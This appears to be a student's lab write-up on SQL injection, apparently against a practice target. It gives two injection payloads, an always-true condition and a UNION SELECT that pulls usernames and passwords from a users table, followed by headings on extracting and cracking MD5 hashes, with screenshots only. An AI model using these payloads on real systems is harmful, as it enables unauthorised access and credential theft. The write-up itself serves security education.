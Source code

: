 # SQLi
## Assigment 11

### There is a user input to find the username and password of the id
![](./pics/1.png)
### Viewing the code
![](./pics/2.png)
### Injection sql code `' or '1'='1'`
![](./pics/3.png)
![](./pics/4.png)
### Injection sql code `1' OR 1=1 UNION SELECT user, password FROM users #`
![](./pics/5.png)
![](./pics/6.png)
### Extracting the MD5 hashes
![](./pics/7.png)
### Cracking the hashes
![](./pics/8.png)
![](./pics/9.png)